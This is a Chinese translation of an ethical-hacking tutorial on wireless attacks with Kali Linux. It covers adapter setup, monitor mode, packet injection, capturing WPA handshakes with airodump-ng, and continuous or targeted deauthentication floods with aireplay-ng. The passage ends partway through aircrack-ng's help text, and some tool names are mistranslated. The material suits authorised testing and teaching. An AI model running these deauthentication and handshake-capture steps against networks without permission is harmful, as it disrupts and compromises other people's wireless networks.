


# 无线安全和黑客攻击

> 原文：<https://levelup.gitconnected.com/ethical-hacking-part-14-wireless-hacking-cd44cd1445b7>

## 道德黑客，了解防范攻击的风险——如何访问无线网络


很多人都要求这篇文章，所以这里去:)

为了完成本教程，您需要以下内容:

*   Kali Linux
*   支持**监控**和**数据包注入**的无线 USB 芯片组
*   如果您使用的是虚拟盒子， [**下载并安装最新版本的虚拟盒子和扩展包**](https://www.virtualbox.org/wiki/Downloads) 。这一点很重要，你需要确保你运行的是最新版本的“ [**【虚拟盒子】**](https://www.virtualbox.org/wiki/Downloads) ”和“ [**Oracle VM VirtualBox 扩展包**](https://www.virtualbox.org/wiki/Downloads) ”。

大多数网卡不支持“**监控模式**”和“**数据包注入**”，而这对于道德黑客和渗透测试是必不可少的。只要他们使用的芯片组支持我们需要的功能，你使用的制造商是无关紧要的。

**最受欢迎的 Kali Linux Pen 测试芯片组**

*   **阿尔法 AWUS036NHA**
*   阿瑟罗斯 AR9271
*   雷凌 RT3070
*   雷凌 RT3572
*   雷凌 RT5572
*   **Realtek RTL8812AU**
*   雷凌 RT5370N

到目前为止，我们一直使用 Kali Linux 作为虚拟机器安装。这需要一些努力，但我们需要做一些改变。理想情况下，在可引导 USB 或物理安装上使用 Kali 会更容易，因为将无线 USB NIC 扩展到虚拟机并不是一件简单的事情。我将解释如何做到这一点，因为这是我如何配置我的。

出于本教程的目的，我从亚马逊购买了两张卡进行测试。

我在亚马逊上花 23.97 美元买了这个 USB 无线网卡:

*   [WiFi Nation 802.11 AC AC 600 USB WiFi 天线，适配器，无线加密狗 2dBi 偶极 SMA 天线，芯片组:Realtek RTL8811AU，双频 2.4GHz 或 5GHz，支持 Windows，macOS 和 linux】](https://www.amazon.co.uk/gp/product/B082MSRSV7/ref=ppx_yo_dt_b_asin_title_o00_s00?ie=UTF8&psc=1)

我还在亚马逊上花 20.49 美元**买了这个 USB 无线网卡，这是我推荐的卡**:

*   [阿尔法网络 AWUS036NHA — USB WiFi 适配器，150 Mbps，802.11b/g/n，RP-SMA，AR9271L Atheros 芯片组](https://www.amazon.co.uk/gp/product/B004Y6MIXS/ref=ppx_yo_dt_b_asin_title_o02_s00?ie=UTF8&psc=1)

它们都可以工作，但是 WiFi Nation 卡在标准 Kali 安装中没有完全加载。它似乎被内核部分检测到，不会完全进入监控模式。我联系了他们的支持，他们让我下载 Z Security 的定制版本，我照做了。完全重新安装 Kali 并不理想，但我可以确认他们的定制版本确实有效。阿尔法卡在标准 Kali 安装中工作，所以如果我选择其中一个卡，我会推荐那一个。

## 正在为您的新 USB 网卡准备虚拟盒…

*   **打开卡莉虚拟盒子的设置**。
*   点击**端口**，然后点击 **USB** 。



*   点击带有**绿色+** 的 USB 图标
*   添加新的 USB 3.0 网卡。
*   双击新网卡，将“**远程**”更改为“**是**



*   当你的 Kali 虚拟盒子启动时，点击“**设备**”虚拟盒子菜单，然后点击“ **USB** ”，然后点击你的无线网卡。在我的案例中“ **Realtek 802.11ac WAN 适配器【0200】**”。如果你不这样做，USB 将不会虚拟连接，Kali 不会检测到它。如果您在启动时没有做到这一点，您仍然可以稍后再做。这就像在你的操作系统中插入一个 USB 接口，它会被检测出来，然后你就可以离开了。

## 正在安装 USB 无线设备…

*   引导并登录到 Kali Linux
*   打开一个终端，sudo 到 root

```
kali@kali:~$ **sudo su -**
[sudo] password for kali: 
root@kali:~#
```

*   打开“ **/etc/apt/sources.list** ”，确保两个 repos 都有注释。

```
root@kali:~# **vi /etc/apt/sources.list**deb [http://http.kali.org/kali](http://http.kali.org/kali) kali-last-snapshot main non-free contrib
deb-src [http://http.kali.org/kali](http://http.kali.org/kali) kali-rolling main non-free contrib
```

*   确保您的系统是最新的。

```
root@kali:~# **apt-get update -y && apt-get upgrade -y**
Hit:1 [http://kali.download/kali](http://kali.download/kali) kali-rolling InRelease
Reading package lists... Done
Reading package lists... Done
Building dependency tree       
Reading state information... Done
Calculating upgrade... Done
0 upgraded, 0 newly installed, 0 to remove and 111 not upgraded.
root@kali:~#
```

*   如果您使用的是 Realtek 卡，您需要为“ **Realtek RTL8811AU 芯片组**”网卡安装驱动程序。

```
root@kali:~# **apt-get install realtek-rtl88xxau-dkms -y**
Reading package lists... Done
Building dependency tree       
Reading state information... Done
realtek-rtl88xxau-dkms is already the newest version (5.6.4.2~git20200916-0kali1).
0 upgraded, 0 newly installed, 0 to remove and 111 not upgraded.
root@kali:~#
```

*   如果你使用的是 Alfa 卡，你需要做的就是安装 Atheros 固件。这个卡是迄今为止最容易安装和正常的 Kali 安装工程。如果你要为卡莉买一张卡，这是我推荐的。

```
root@kali:~# **apt-get install firmware-atheros -y**
```

*   你现在需要完全关闭你的机器，不要保存状态。

```
root@kali:~# **poweroff**
```

*   如果你使用的是 WiFi 国家卡，他们的安装说明会稍微复杂一些。正如我提到的，这实际上对我不起作用，我最终不得不安装 [Z 安全定制的 Kali build](https://medium.com/r?url=https%3A%2F%2Fzsecurity.org%2Fdownload-custom-kali%2F) 来让它工作。

```
root@kali:~# **apt install git**
root@kali:~# **dkms git clone** [**https://github.com/gnab/rtl8812au.git**](https://github.com/gnab/rtl8812au.git)
root@kali:~# **cp -r rtl8812au /usr/src/rtl8812au-4.2.2**
root@kali:~# **dkms add -m rtl8812au -v 4.2.2**
root@kali:~# **dkms build -m rtl8812au -v 4.2.2**
root@kali:~# **dkms install -m rtl8812au -v 4.2.2**
```

*   重启后，运行检查模块是否已安装。

```
root@kali:~# **modprobe 8812au**
```

最糟糕的部分是试图让 Kali 正确地检测支持“**监控模式**”和“**数据包注入**”的 USB 网卡，但是一旦你让它工作，你就可以开始了。

## “监控模式”有效吗？

您需要运行一些诊断命令来确认一切正常。如果您在每个命令中看不到您的" **wlan0** "或等效接口，那么您的卡没有被 Kali 正确检测到。我在 Kali 使用 WiFi Nation 卡时遇到的一个问题是，除了“ **iw** ”之外，所有命令都显示在界面上。

```
root@kali:~# **iw dev**
**phy#1
 Interface wlan0
  ifindex 4
  wdev 0x100000001
  addr 22:92:14:15:1a:06
  type managed
  channel 1 (2412 MHz), width: 20 MHz, center1: 2412 MHz
  txpower 18.00 dBm**root@kali:~# **lsusb**
Bus 002 Device 001: ID 1d6b:0003 Linux Foundation 3.0 root hub
**Bus 001 Device 005: ID 0bda:0811 Realtek Semiconductor Corp. 802.11ac WLAN Adapter** 
Bus 001 Device 004: ID 80ee:0021 VirtualBox USB Tablet
Bus 001 Device 001: ID 1d6b:0002 Linux Foundation 2.0 root hubroot@kali:~# **ifconfig**
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.2  netmask 255.255.255.0  broadcast 192.168.1.255
        ether 08:00:27:61:84:e4  txqueuelen 1000  (Ethernet)
        RX packets 2574  bytes 1126619 (1.0 MiB)
        RX errors 0  dropped 944  overruns 0  frame 0
        TX packets 728  bytes 83874 (81.9 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 15  bytes 729 (729.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15  bytes 729 (729.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0**wlan0: flags=4099<UP,BROADCAST,MULTICAST>  mtu 2312
        ether 22:92:14:15:1a:06  txqueuelen 1000  (Ethernet)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0**root@kali:~# ip link
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN mode DEFAULT group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP mode DEFAULT group default qlen 1000
    link/ether 08:00:27:61:84:e4 brd ff:ff:ff:ff:ff:ff
**4: wlan0: <NO-CARRIER,BROADCAST,MULTICAST,UP,LOWER_UP> mtu 2312 qdisc mq state DORMANT mode DORMANT group default qlen 1000
    link/ether 22:92:14:15:1a:06 brd ff:ff:ff:ff:ff:ff**root@kali:~# **iwconfig**
lo        no wireless extensions.**wlan0     IEEE 802.11  ESSID:off/any  
          Mode:Managed  Access Point: Not-Associated   Tx-Power=18 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Encryption key:off
          Power Management:off**

eth0      no wireless extensions.
```

如您所见，该卡目前处于“**管理的**模式。

```
root@kali:~# **iw dev**
phy#1
 Interface wlan0
  ifindex 4
  wdev 0x100000001
  addr 92:6a:88:99:a9:fa
  type **managed**
  channel 1 (2412 MHz), width: 20 MHz, center1: 2412 MHz
  txpower 18.00 dBm
```

我们想将其更改为“**监视器**模式。

```
root@kali:~# **ip link set wlan0 down**
root@kali:~# **iwconfig wlan0 mode monitor**
root@kali:~# **ip link set wlan0 up**
root@kali:~# **iw dev**
phy#1
 Interface wlan0
  ifindex 4
  wdev 0x100000001
  addr 92:6a:88:99:a9:fa
  type **monitor**
  channel 1 (2412 MHz), width: 20 MHz, center1: 2412 MHz
  txpower 18.00 dBm
```

有一点令人困惑的是，将无线网卡置于“ **monitor** ”模式可能会也可能不会创建另一个名为“ **wlan0mon** ”的虚拟接口。我读过的几乎所有文档都指出应该创建这个接口。然而，我确实发现有些卡(比如我正在使用的卡)不能创建另一个接口，也不能在现有的" **wlan0** "上进行监控。当你把卡放入**监控模式**时，运行 **ifconfig** 。如果你看到“ **wlan0mon** ”，那么使用那个，否则使用“ **wlan0** ”。

```
root@kali:~# **airmon-ng check kill**Killing these processes:PID Name
    613 wpa_supplicantroot@kali:~# **airmon-ng start wlan0**PHY Interface Driver  Chipsetphy1 wlan0  88XXau  Realtek Semiconductor Corp. 802.11ac WLAN Adapter 
 (monitor mode enabled)
```

确认监控正在工作…

```
root@kali:~# **airodump-ng wlan0**  <--   or your wlan0monCH 10 ][ Elapsed: 6 s ][ 2020-10-25 17:03BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSIDC0:3E:0F:2A:F4:8D   -1        0        3    0   1   -1   WPA              <length:  0>                
 26:4C:E3:5C:8E:73  -22        4        0    0   1  130   WPA2 CCMP   PSK  <length: 21>                
 E8:AD:A6:E0:45:A4  -57       20       13    0   6  195   WPA2 CCMP   PSK  REMOVED                
 EA:AD:A6:E0:47:A5  -56       23        0    0   6  195   OPN              REMOVED                    
 AC:84:C6:55:95:B8  -79       10        0    0  11  270   WPA2 CCMP   PSK  REMOVED                 
 58:EF:68:07:BE:07  -81        5        0    0   1  130   WPA2 CCMP   PSK  REMOVED                    
 D0:57:94:B8:AC:F6  -74        5        0    0   1  130   WPA2 CCMP   PSK  REMOVED               
 AC:E2:D3:31:2A:14  -105        5        0    0   6   65   WPA2 CCMP   PSK  <length: 23>BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes(not associated)   54:E0:19:6F:17:54  -49    0 - 1      8        8                                    
 C0:3E:0F:2A:F4:8D  FC:A1:83:93:55:C9  -55    0 -24e     0       10                                    
 58:EF:68:07:BE:07  24:4C:E3:5C:0E:73  -23    0 -24e     0        3                                    
 58:EF:68:07:BE:07  68:54:FD:C4:19:B5  -44    0 -24e     0       17
```

## “包注入”有效吗？

```
root@kali:~# **aireplay-ng -9 wlan0**
17:06:08  Trying broadcast probe requests...
17:06:10  No Answer...
17:06:10  Found 1 AP17:06:10  Trying directed probe requests...
17:06:10  AC:84:C6:55:95:B8 - channel: 11 - 'REMOVED'
17:06:11  Ping (min/avg/max): 1.489ms/5.576ms/23.743ms Power: -77.71
17:06:11  28/30:  93%17:06:11  Injection is working!
```

## 让生活变得简单一点…

在“**监控**”模式和“**管理**”模式之间切换有点痛苦，因为有几个命令要运行。更简单的方法是创建一些简单的 bash 脚本来自动完成它们。

首先，让我们创建两个空文件，并授予它们执行权限。

```
root@kali:~# **touch monitor.sh**
root@kali:~# **chmod +x monitor.sh**root@kali:~# **touch managed.sh**
root@kali:~# **chmod +x managed.sh**
```

找到 bash 在系统中的位置。

```
root@kali:~# **which bash**
/usr/bin/bash
```

编辑您的“ **monitor.sh** ”文件，并添加以下内容。

```
#!/usr/bin/bashairmon-ng check kill
ip link set wlan0 down
macchanger -r wlan0
iwconfig wlan0 mode monitor
ip link set wlan0 up
iw dev | grep type
```

如果第一行中你的 bash 位置和我的不同，那就改变它。我还把你的 mac 地址改成随机的。如果您正在测试一个网络(经过许可)，您可能希望模拟一次真实攻击。

编辑您的“ **managed.sh** ”文件，并添加以下内容。

```
#!/usr/bin/bashservice NetworkManager restart
ip link set wlan0 down
iwconfig wlan0 mode managed
ip link set wlan0 up
iw dev | grep type
```

# 这仅用于教育或专业目的！未经允许不要攻击无线网络！

让我们看看各种工具以及如何使用它们…

## 空气溶解剂

```
root@kali:~# **airodump-ng --help**Airodump-ng 1.6  - (C) 2006-2020 Thomas d'Otreppe
  [https://www.aircrack-ng.org](https://www.aircrack-ng.org)usage: airodump-ng <options> <interface>[,<interface>,...]Options:
      --ivs                 : Save only captured IVs
      --gpsd                : Use GPSd
      --write      <prefix> : Dump file prefix
      -w                    : same as --write 
      --beacons             : Record all beacons in dump file
      --update       <secs> : Display update delay in seconds
      --showack             : Prints ack/cts/rts statistics
      -h                    : Hides known stations for --showack
      -f            <msecs> : Time in ms between hopping channels
      --berlin       <secs> : Time before removing the AP/client
                              from the screen when no more packets
                              are received (Default: 120 seconds)
      -r             <file> : Read packets from that file
      -T                    : While reading packets from a file,
                              simulate the arrival rate of them
                              as if they were "live".
      -x            <msecs> : Active Scanning Simulation
      --manufacturer        : Display manufacturer from IEEE OUI list
      --uptime              : Display AP Uptime from Beacon Timestamp
      --wps                 : Display WPS information (if any)
      --output-format
                  <formats> : Output format. Possible values:
                              pcap, ivs, csv, gps, kismet, netxml, logcsv
      --ignore-negative-one : Removes the message that says
                              fixed channel <interface>: -1
      --write-interval
                  <seconds> : Output file(s) write interval in seconds
      --background <enable> : Override background detection.
      -n              <int> : Minimum AP packets recv'd before
                              for displaying itFilter options:
      --encrypt   <suite>   : Filter APs by cipher suite
      --netmask <netmask>   : Filter APs by mask
      --bssid     <bssid>   : Filter APs by BSSID
      --essid     <essid>   : Filter APs by ESSID
      --essid-regex <regex> : Filter APs by ESSID using a regular
                              expression
      -a                    : Filter unassociated clientsBy default, airodump-ng hops on 2.4GHz channels.
  You can make it capture on other/specific channel(s) by using:
      --ht20                : Set channel to HT20 (802.11n)
      --ht40-               : Set channel to HT40- (802.11n)
      --ht40+               : Set channel to HT40+ (802.11n)
      --channel <channels>  : Capture on specific channels
      --band <abg>          : Band on which airodump-ng should hop
      -C    <frequencies>   : Uses these frequencies in MHz to hop
      --cswitch  <method>   : Set channel switching method
                    0       : FIFO (default)
                    1       : Round Robin
                    2       : Hop on last
      -s                    : same as --cswitch--help                : Displays this usage screen
```

基本用法对范围内的无线网络进行大范围扫描。

```
root@kali:~# **airodump-ng wlan0**CH  9 ][ Elapsed: 6 s ][ 2020-10-25 18:53BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSIDC0:3E:0F:2A:F4:8D   -1        0        0    0   1   -1                    <length:  0>                                                          
 26:4C:E3:5C:8E:73  -22        5        0    0   1  130   WPA2 CCMP   PSK  <length: 21>                                                          
 EA:AD:A6:E0:47:A5  -58       15        0    0   6  195   OPN              REMOVED                                                               
 E8:AD:A6:E0:45:A4  -58       12        7    0   6  195   WPA2 CCMP   PSK  REMOVED                                                          
 D0:57:94:B8:AC:F6  -62        6        0    0   1  130   WPA2 CCMP   PSK  REMOVED                                                          
 AC:84:C6:55:95:B8  -77        2        0    0  11  270   WPA2 CCMP   PSK  REMOVED                                                           
 58:EF:68:07:BE:07  -83        4        5    0   1  130   WPA2 CCMP   PSK  REMOVED                                                              
 AC:E2:D3:31:2A:14  -103        2        0    0   6   65   WPA2 CCMP   PSK  <length: 23>BSSID              STATION            PWR   Rate    Lost    Frames  Notes  ProbesC0:3E:0F:2A:F4:8D  FC:A1:83:93:55:C9  -58    0 -24e     0        2                                                                              
 58:EF:68:07:BE:07  24:4C:E3:5C:0E:73   -3    0 -24e    46        2                                                                              
 58:EF:68:07:BE:07  10:AE:60:27:17:55  -20    0 - 0e     0        5                                                                              
 58:EF:68:07:BE:07  68:54:FD:C4:19:B5  -43    0 -24e     0       14                                                                              
 58:EF:68:07:BE:07  60:AB:14:25:EB:48  -77    0 - 1      6        3                                                                              
 58:EF:68:07:BE:07  38:71:DE:F1:B6:8C  -81    0 - 1      5        2                                                                              
 58:EF:68:07:BE:07  40:A2:DB:0E:DF:49  -87    0 - 1      0        1
```

*   **BSSID** 是无线接入点(AP)的 MAC 地址
*   **PWR** 是无线单的强度，越接近 0 越好。
*   **CH** 是无线接入点(AP)使用的信道
*   **ESSID** 是无线网络的名称或 SSID
*   **站**是连接到 AP 的无线客户端的 MAC 接入

如果我们想捕获无线 WEP，WPA 或 WPA2 密钥，你可以这样做。

```
root@kali:~# **airodump-ng -c 6 -w SCAN --bssid E8:AD:A6:E0:45:A4 wlan0**
```

上面的命令是在信道 6 上扫描 MAC 地址为 E8:AD:A6:E0:45:A4 的接入点。从扫描开始，捕获转储将存储在文件中。

```
root@kali:~# **ls -la | grep SCAN**
-rw-r--r--  1 root root    139345 Oct 25 19:00 SCAN-01.cap
-rw-r--r--  1 root root       771 Oct 25 19:00 SCAN-01.csv
-rw-r--r--  1 root root       594 Oct 25 19:00 SCAN-01.kismet.csv
-rw-r--r--  1 root root      5881 Oct 25 19:00 SCAN-01.kismet.netxml
-rw-r--r--  1 root root     47062 Oct 25 19:00 SCAN-01.log.csv
```

当它扫描时，文件的顶部会显示类似这样的内容…

```
CH  6 ][ Elapsed: 6 s ][ 2020-10-25 18:59
```

一旦无线客户端通过身份验证，您就会看到这个。这表明你已经准备好开始破解了。

```
CH  6 ][ Elapsed: 3 mins ][ 2020-10-25 19:02 ][ **WPA handshake: E8:AD:A6:E0:45:A4**
```

您也可以像这样扫描特定的无线网络。

```
root@kali:~# airodump-ng --bssid E8:AD:A6:E0:45:A4 --essid **WIRELESS_SSID** wlan0
```

只需用来自“ **airodump-ng** ”的实际无线网络 SSID 替换“ **WIRELESS_SSID** ”。如果您愿意，还可以进一步将范围缩小到特定的频道。

## 空气播放

```
root@kali:~# **aireplay-ng --help**Aireplay-ng 1.6  - (C) 2006-2020 Thomas d'Otreppe
  [https://www.aircrack-ng.org](https://www.aircrack-ng.org)usage: aireplay-ng <options> <replay interface>Filter options:-b bssid  : MAC address, Access Point
      -d dmac   : MAC address, Destination
      -s smac   : MAC address, Source
      -m len    : minimum packet length
      -n len    : maximum packet length
      -u type   : frame control, type    field
      -v subt   : frame control, subtype field
      -t tods   : frame control, To      DS bit
      -f fromds : frame control, From    DS bit
      -w iswep  : frame control, WEP     bit
      -D        : disable AP detectionReplay options:-x nbpps  : number of packets per second
      -p fctrl  : set frame control word (hex)
      -a bssid  : set Access Point MAC address
      -c dmac   : set Destination  MAC address
      -h smac   : set Source       MAC address
      -g value  : change ring buffer size (default: 8)
      -F        : choose first matching packetFakeauth attack options:-e essid  : set target AP SSID
      -o npckts : number of packets per burst (0=auto, default: 1)
      -q sec    : seconds between keep-alives
      -Q        : send reassociation requests
      -y prga   : keystream for shared key auth
      -T n      : exit after retry fake auth request n timeArp Replay attack options:-j        : inject FromDS packetsFragmentation attack options:-k IP     : set destination IP in fragments
      -l IP     : set source IP in fragmentsTest attack options:-B        : activates the bitrate testSource options:-i iface  : capture packets from this interface
      -r file   : extract packets from this pcap fileMiscellaneous options:-R                    : disable /dev/rtc usage
      --ignore-negative-one : if the interface's channel can't be determined,
                              ignore the mismatch, needed for unpatched cfg80211
      --deauth-rc rc        : Deauthentication reason code [0-254] (Default: 7)Attack modes (numbers can still be used):--deauth      count : deauthenticate 1 or all stations (-0)
      --fakeauth    delay : fake authentication with AP (-1)
      --interactive       : interactive frame selection (-2)
      --arpreplay         : standard ARP-request replay (-3)
      --chopchop          : decrypt/chopchop WEP packet (-4)
      --fragment          : generates valid keystream   (-5)
      --caffe-latte       : query a client for new IVs  (-6)
      --cfrag             : fragments against a client  (-7)
      --migmode           : attacks WPA migration mode  (-8)
      --test              : tests injection and quality (-9)--help              : Displays this usage screen
```

在上一节中，您会注意到您需要等待无线客户端进行身份验证，以便捕获 WPA 握手。对此有所帮助的方法是向无线网络上的所有客户端发送一个断开信号，并强制它们重新进行身份验证。 **-0** 参数来自上面的帮助“**解除认证 1 或所有站**”。它后面的数字“ **0** ”告诉它继续运行，或者您可以指定一个特定的数字。

```
root@kali:~# **aireplay-ng -0 0 -a E8:AD:A6:E0:45:A4 wlan0**
17:40:25  Waiting for beacon frame (BSSID: E8:AD:A6:E0:45:A4) on channel 6
NB: this attack is more effective when targeting
a connected wireless client (-c <client's mac>).
17:40:26  Sending DeAuth (code 7) to broadcast -- BSSID: [E8:AD:A6:E0:45:A4]
17:40:26  Sending DeAuth (code 7) to broadcast -- BSSID: [E8:AD:A6:E0:45:A4]
17:40:27  Sending DeAuth (code 7) to broadcast -- BSSID: [E8:AD:A6:E0:45:A4]
17:40:27  Sending DeAuth (code 7) to broadcast -- BSSID: [E8:AD:A6:E0:45:A4]
17:40:28  Sending DeAuth (code 7) to broadcast -- BSSID: [E8:AD:A6:E0:45:A4]
17:40:28  Sending DeAuth (code 7) to broadcast -- BSSID: [E8:AD:A6:E0:45:A4]
```

这实际上是非常严重的拒绝服务攻击，我不知道有什么方法可以阻止它。如果您连续运行该命令，它将不断断开所有无线客户端有效信号干扰整个网络。如果你知道防止这种攻击的方法，请留下你的评论，因为这将是很好的了解。

如果出于某种原因“ **airplay-ng** ”抱怨您的无线网卡与目标不在同一个频道上，这很容易解决。例如，如果从" **airodump-ng** "中发现的无线网络位于信道 6 上，那么您可以运行此命令。

```
root@kali:~# **iwconfig wlan0 channel 6**
```

实际上，您可以像这样将网络中的特定无线客户端作为目标。

```
root@kali:~# **aireplay-ng -0 5 -a E8:AD:A6:E0:45:A4 -c TARGET_MAC wlan0**
```

使用" **airodump-ng** "您可以查看每个网络上无线客户端的 MAC 地址。如果您将“**TARGET _ MAC”**替换为无线客户端受害者的 MAC，它将专门针对他们。我还向您展示了如何发送 5 次断开连接，而不是连续运行该命令。

选项“ **9** ，如“ **-9** ”也非常有用，将执行“**测试注入和质量**”。

```
root@kali:~# **aireplay-ng -9 wlan0**
04:44:51  Trying broadcast probe requests...
04:44:51  Injection is working!
04:44:53  Found 3 APs04:44:53  Trying directed probe requests...
04:44:53  D0:57:94:B8:AC:F6 - channel: 1 - 'REMOVED'
04:44:53  Ping (min/avg/max): 1.966ms/7.358ms/29.551ms Power: -62.40
04:44:53  30/30: 100%04:44:53  62:FE:3B:CE:9E:59 - channel: 1 - 'REMOVED'
04:44:59  Ping (min/avg/max): 2.784ms/5.262ms/7.740ms Power: -95.00
04:44:59   2/30:   6%04:44:59  58:EF:68:07:BE:07 - channel: 1 - 'REMOVED'
04:45:05   0/30:   0%
```

你可以进行这样的攻击测试。

```
root@kali:~# **aireplay-ng -9 -i wlan1 wlan0**
```

选项" **9** "如" **-9** "也非常有用，将执行"**测试注入和质量**"

“ **-i wlan1** ”是模拟 AP 接收数据包的接口。

“ **wlan0** ”是注入接口。

## 空气裂化

```
root@kali:~# **aircrack-ng --help**Aircrack-ng 1.6  - (C) 2006-2020 Thomas d'Otreppe
  [https://www.aircrack-ng.org](https://www.aircrack-ng.org)usage: aircrack-ng [options] <input file(s)>Common options:-a <amode> : force attack mode (1/WEP, 2/WPA-PSK)
      -e <essid> : target selection: network identifier
      -b <bssid> : target selection: access point's MAC
      -p <nbcpu> : # of CPU to use  (default: all CPUs)
      -q         : enable quiet mode (no status output)
      -C <macs>  : merge the given APs to a virtual one
      -l <file>  : write key to file. Overwrites file.Static WEP cracking options:-c         : search alpha-numeric characters only
      -t         : search binary coded decimal chr only
      -h         : search the numeric key for Fritz!BOX
      -d <mask>  : use masking of the key (A1:XX:CF:YY)
      -m <maddr> : MAC address to filter usable packets
      -n <nbits> : WEP key length :  64/128/152/256/512
      -i <index> : WEP key index (1 to 4), default: any
      -f <fudge> : bruteforce fudge factor,  default: 2
      -k <korek> : disable one attack method  (1 to 17)
      -x or -x0  : disable bruteforce for last keybytes
      -x1        : last keybyte bruteforcing  (default)
      -x2        : enable last  2 keybytes bruteforcing
      -X         : disable  bruteforce   multithreading
      -y         : experimental  single bruteforce mode
      -K         : use only old KoreK attacks (pre-PTW)
      -s         : show the key in ASCII while cracking
      -M <num>   : specify maximum number of IVs to use
      -D         : WEP decloak, skips broken keystreams
      -P <num>   : PTW debug:  1: disable Klein, 2: PTW
      -1         : run only 1 try to crack key with PTW
      -V         : run in visual inspection modeWEP and WPA-PSK cracking options:-w <words> : path to wordlist(s) filename(s)
      -N <file>  : path to new session filename
      -R <file>  : path to existing session filenameWPA-PSK options:-E <file>  : create EWSA Project file v3
      -I <str>   : PMKID string (hashcat -m 16800)
      -j <file>  : create Hashcat v3.6+ file (HCCAPX)
      -J <file>  : create Hashcat file (HCCAP)
      -S         : WPA cracking speed test
      -Z <sec>   : WPA cracking speed test length of
                   execution.
      -r <DB>    : path to airolib-ng database
                   (Cannot be used with -w)SIMD selection:--simd-list       : Show a list of the available
                          SIMD architectures, for this
                          machine.
      --simd=<option>   : Use specific SIMD architecture.<option> may be one of the following, depending on
      your platform:generic
                   avx512
                   avx2
                   avx
                   sse2
                   altivec
                   power8
                   asimd
